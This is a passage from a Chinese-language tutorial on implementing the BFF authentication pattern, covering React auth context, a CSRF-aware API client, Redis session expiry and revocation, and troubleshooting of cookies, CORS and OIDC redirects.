  logout: () => Promise<void>;
}

const AuthContext = createContext<AuthContextValue | null>(null);

export function AuthProvider({ children }: { children: React.ReactNode }) {
  const [user, setUser] = useState<UserInfo | null>(null);
  const [isLoading, setIsLoading] = useState(true);

  useEffect(() => {
    checkAuthStatus()
      .then((userInfo) => setUser(userInfo))
      .catch(() => setUser(null))
      .finally(() => setIsLoading(false));
  }, []);

  return (
    <AuthContext.Provider
      value={{
        user,
        isLoading,
        isAuthenticated: user !== null,
        login: startLogin,
        logout: async () => {
          await logout();
          setUser(null);
        },
      }}
    >
      {children}
    </AuthContext.Provider>
  );
}

export function useAuth(): AuthContextValue {
  const ctx = useContext(AuthContext);
  if (!ctx) throw new Error('useAuth must be used within AuthProvider');
  return ctx;
}
```

### API 请求工具

所有 API 请求走 BFF 代理，前端无需管理 Token：

```typescript
// src/api/client.ts（前端代码）

function getCsrfToken(): string {
  return (
    document.cookie
      .split('; ')
      .find((c) => c.startsWith('csrf_token='))
      ?.split('=')[1] ?? ''
  );
}

class ApiClient {
  async request<T>(path: string, options: RequestInit = {}): Promise<T> {
    const method = options.method?.toUpperCase() ?? 'GET';
    const isModifying = ['POST', 'PUT', 'PATCH', 'DELETE'].includes(method);

    const response = await fetch(`/api${path}`, {
      ...options,
      credentials: 'include',
      headers: {
        'Content-Type': 'application/json',
        ...(isModifying ? { 'x-csrf-token': getCsrfToken() } : {}),
        ...options.headers,
      },
    });

    if (response.status === 401) {
      // Session 过期，跳转登录
      startLogin(window.location.pathname);
      throw new Error('Unauthorized');
    }

    if (!response.ok) {
      throw new Error(`API request failed: ${response.status}`);
    }

    return response.json() as Promise<T>;
  }

  get<T>(path: string): Promise<T> {
    return this.request<T>(path);
  }

  post<T>(path: string, body: unknown): Promise<T> {
    return this.request<T>(path, {
      method: 'POST',
      body: JSON.stringify(body),
    });
  }

  put<T>(path: string, body: unknown): Promise<T> {
    return this.request<T>(path, {
      method: 'PUT',
      body: JSON.stringify(body),
    });
  }

  delete<T>(path: string): Promise<T> {
    return this.request<T>(path, { method: 'DELETE' });
  }
}

export const apiClient = new ApiClient();
```

## 会话管理进阶

### 滑动过期 vs 绝对过期

BFF Session 可以选择两种过期策略：

**绝对过期（Absolute Expiration）**：Session 在创建后固定时长后过期，不管用户是否活跃。

- 优点：可预测，适合高安全场景（如银行系统，Session 最多维持 8 小时）
- 缺点：活跃用户可能被强制登出

**滑动过期（Sliding Expiration）**：每次 Session 被访问时，重置过期时间。上面 `SessionService.get()` 方法中调用 `setex` 就是在实现滑动过期。

- 优点：活跃用户永不被登出
- 缺点：理论上 Session 可以无限期存活，攻击者盗取 Session 后可以通过持续活动维持 Session

**组合策略（推荐）**：

```typescript
async get(sessionId: string): Promise<SessionData | null> {
  const raw = await this.redis.get(`${this.KEY_PREFIX}${sessionId}`);
  if (!raw) return null;

  const session = JSON.parse(raw) as SessionData;

  // 绝对过期检查：Session 创建时间距今不超过 30 天
  const MAX_SESSION_AGE = 30 * 24 * 60 * 60 * 1000;
  if (Date.now() - session.createdAt > MAX_SESSION_AGE) {
    await this.destroy(sessionId);
    return null;
  }

  // 滑动过期：每次访问重置 TTL（7 天）
  session.lastAccessedAt = Date.now();
  await this.redis.setex(
    `${this.KEY_PREFIX}${sessionId}`,
    this.SESSION_TTL,
    JSON.stringify(session),
  );

  return session;
}
```

### 单设备强制登出（踢下线）

管理员需要能够强制特定用户下线（如账号被举报、密码被修改）。由于 Session 存在 Redis，只需要删除该用户的所有 Session：

```typescript
// src/auth/session.service.ts（补充）

async destroyAllUserSessions(userId: string): Promise<void> {
  // 扫描该用户的所有 Session
  // 注意：生产环境不要用 KEYS 命令，用 SCAN 替代
  const keys = await this.redis.scan(`${this.KEY_PREFIX}*`);

  const deletePromises = keys.map(async (key) => {
    const raw = await this.redis.get(key);
    if (!raw) return;

    const session = JSON.parse(raw) as SessionData;
    if (session.userId === userId) {
      await this.redis.del(key);
    }
  });

  await Promise.all(deletePromises);
}

// 更高效的做法：维护用户 → Session 的索引
async createWithIndex(params: {
  userId: string;
  // ...其他参数
}): Promise<string> {
  const sessionId = await this.create(params);

  // 维护用户 Session 集合索引
  const userSessionsKey = `user:sessions:${params.userId}`;
  await this.redis.sadd(userSessionsKey, sessionId);
  // 给索引也设置过期时间（最长Session过期时间）
  await this.redis.expire(userSessionsKey, this.SESSION_TTL);

  return sessionId;
}

async destroyAllUserSessionsViaIndex(userId: string): Promise<void> {
  const userSessionsKey = `user:sessions:${userId}`;
  const sessionIds = await this.redis.smembers(userSessionsKey);

  const deletePromises = sessionIds.map((id) =>
    this.redis.del(`${this.KEY_PREFIX}${id}`)
  );
  await Promise.all(deletePromises);
  await this.redis.del(userSessionsKey);
}
```

### 并发 Session 控制

某些安全场景需要限制用户同时在线的设备数量（如"最多登录 3 个设备"）：

```typescript
async create(params: {
  userId: string;
  maxSessions?: number; // 最大并发 Session 数
  // ...
}): Promise<string> {
  if (params.maxSessions) {
    const userSessionsKey = `user:sessions:${params.userId}`;
    const currentSessions = await this.redis.smembers(userSessionsKey);

    if (currentSessions.length >= params.maxSessions) {
      // 强制登出最早创建的 Session
      const sessions = await Promise.all(
        currentSessions.map(async (id) => {
          const raw = await this.redis.get(`${this.KEY_PREFIX}${id}`);
          return raw ? { id, data: JSON.parse(raw) as SessionData } : null;
        })
      );

      const validSessions = sessions.filter(Boolean);
      validSessions.sort((a, b) => a!.data.createdAt - b!.data.createdAt);

      // 删除最早的 Session
      const oldest = validSessions[0];
      if (oldest) {
        await this.destroy(oldest.id);
        await this.redis.srem(userSessionsKey, oldest.id);
      }
    }
  }

  // 正常创建 Session...
  const sessionId = randomBytes(32).toString('base64url');
  // ...
  return sessionId;
}
```

## 常见问题与解决方案

### 问题一：Cookie 在前后端分离部署时无法发送

**症状**：开发环境前端运行在 `localhost:5173`，BFF 运行在 `localhost:3000`，`credentials: 'include'` 仍然无法发送 Cookie。

**原因**：

1. **跨域请求的 CORS 配置缺失**：Cookie 在跨域请求中需要服务端在 CORS 响应头中明确允许
2. `SameSite=Lax` 或 `SameSite=Strict` 在某些浏览器对 localhost 的跨端口请求中也视为跨站

**解决**：

首先确保 BFF 正确配置 CORS：

```typescript
// main.ts
app.enableCors({
  origin: 'http://localhost:5173', // 明确指定前端地址，不能用 *
  credentials: true, // 允许携带 Cookie
  methods: ['GET', 'POST', 'PUT', 'DELETE', 'PATCH', 'OPTIONS'],
  allowedHeaders: ['Content-Type', 'x-csrf-token'],
});
```

生产环境推荐的解决方案是通过 Nginx 反向代理，让前端和 BFF 同域：

```nginx
# nginx.conf
server {
    listen 443 ssl;
    server_name app.example.com;

    # 前端静态文件
    location / {
        root /var/www/app;
        try_files $uri $uri/ /index.html;
    }

    # BFF API
    location /auth/ {
        proxy_pass http://bff:3000/auth/;
    }

    location /api/ {
        proxy_pass http://bff:3000/api/;
    }
}
```

同域请求中，Cookie 自然就能正确发送和接收，不需要特殊的 CORS 配置。

### 问题二：BFF 横向扩展后 Session 不一致

**症状**：多个 BFF 实例运行时，用户偶发性地需要重新登录。

**原因**：Session 存储在内存（或使用内置 express-session 的默认内存存储）中，不同实例之间不共享。用户的请求被负载均衡路由到不同实例时，找不到 Session。

**解决**：

1. 确保 SessionService 使用 Redis 存储（本篇中已经是这样做的）
2. 不要使用任何内存 Session 存储
3. 如果 Redis 是单点，考虑使用 Redis Sentinel 或 Redis Cluster 保证高可用

额外：对 Redis 连接配置连接池和重试逻辑：

```typescript
// src/redis/redis.service.ts
import Redis from 'ioredis';

const redis = new Redis({
  host: process.env.REDIS_HOST,
  port: Number(process.env.REDIS_PORT),
  password: process.env.REDIS_PASSWORD,

  // 连接失败时自动重试
  retryStrategy: (times) => {
    if (times > 10) return null; // 超过 10 次放弃
    return Math.min(times * 100, 3000); // 指数退避，最多 3 秒
  },

  // 连接超时配置
  connectTimeout: 10_000,
  commandTimeout: 5_000,
});
```

### 问题三：登出后 Cookie 仍然存在导致自动重新登录

**症状**：用户点击登出后，重新访问应用又自动登录了。

**原因**：登出时只删除了 Redis 中的 Session，但浏览器的 Cookie 没有清除（或者清除了但浏览器缓存仍然发送）。下次请求时，BFF 收到了一个合法的 Session Cookie，但在 Redis 里找不到对应的 Session，应该返回 401 而不是自动重新创建 Session。

**解决**：

1. 确保 `res.clearCookie()` 的 Cookie 属性和 `res.cookie()` 时一致（按 spec，`path`、`domain` 必须匹配）：

```typescript
// 设置 Cookie
res.cookie('sess_id', sessionId, {
  httpOnly: true,
  secure: true,
  sameSite: 'lax',
  path: '/', // 记住这个 path
  maxAge: 7 * 24 * 60 * 60 * 1000,
});

// 清除 Cookie，path 必须与设置时一致
res.clearCookie('sess_id', {
  path: '/', // 必须相同，否则清除无效
});
```

2. BFF 在找不到 Session 时正确返回 401，让前端处理重新登录逻辑，而不是静默地为用户创建新 Session。

### 问题四：OIDC 登录回调后重定向到错误的 returnTo 路径

**症状**：用户在访问 `/orders/123` 时被要求登录，登录完成后没有跳转到 `/orders/123`，而是跳转到了 `/`。

**原因**：`returnTo` 值在整个登录流程中没有被正确传递和保存。整个流程涉及三次跳转：

1. 前端 `/orders/123` → BFF `/auth/login?returnTo=/orders/123`（returnTo 被传入）
2. BFF → OIDC 授权服务器（returnTo 应该被存储，因为 OIDC 跳转不携带 returnTo）
3. OIDC → BFF `/auth/callback`（BFF 从存储中取出 returnTo）

关键是第 2 步：`returnTo` 必须随 PKCE 参数一起存入 Redis，在回调时取出。本篇的 `AuthService` 已经在 `pkce:${state}` 中存储了 `returnTo`，确认你的实现中也是这样做的。

如果跳转仍然出错，可以在 BFF 的 callback 处理中加日志：

```typescript
async handleCallback(code: string, state: string) {
  const pkceRaw = await this.redis.get(`pkce:${state}`);
  console.log('PKCE session found:', !!pkceRaw);
  const pkceData = JSON.parse(pkceRaw!) as PkceSession;
  console.log('returnTo:', pkceData.returnTo);
  // ...
}
```

## 本篇小结

BFF 模式通过将 Token 管理完全迁移到服务端，从根本上消除了 XSS 窃取 Token 的可能性：

**核心安全改进**：Token 从未出现在浏览器的 JavaScript 环境中。BFF Session 用 Session Cookie（HttpOnly）代替 Token，即使 XSS 成功注入代码，也无法提取任何 Token 信息，只能在当前受害者的浏览器会话中发起请求。

**Cookie 安全三件套**：`HttpOnly` 阻止 JavaScript 读取 Cookie；`Secure` 强制 HTTPS 传输；`SameSite=Lax` 阻断大多数 CSRF 攻击。三者同时配置才能发挥完整的防护效果。

**服务端 Token 加密**：即使 Redis 被攻破，加密存储的 Token（AES-256-GCM）也无法被直接利用。认证加密（AEAD）的使用还额外防止了密文被篡改。

**Token 代理透明化**：前端代码完全不感知 Token 的存在，只管发请求。BFF 负责找到正确的 Token、必要时刷新、然后转发给业务 API。Token 刷新逻辑对前端完全透明。

**BFF 模式的代价**：引入了 BFF 服务作为必须高可用的关键基础设施。Session 必须集中存储在 Redis 中，不能依赖本地内存。CSRF 防护是必须主动实现的，而不是像纯前端模式那样天然免疫。

两种接入模式都有其适用场景，工程上没有绝对的好坏——安全要求更高的应用选 BFF，架构简单、对 XSS 有其他防护手段的应用可以选纯前端模式。真正的工程能力在于清楚理解每种选择的代价，做出明智的权衡。
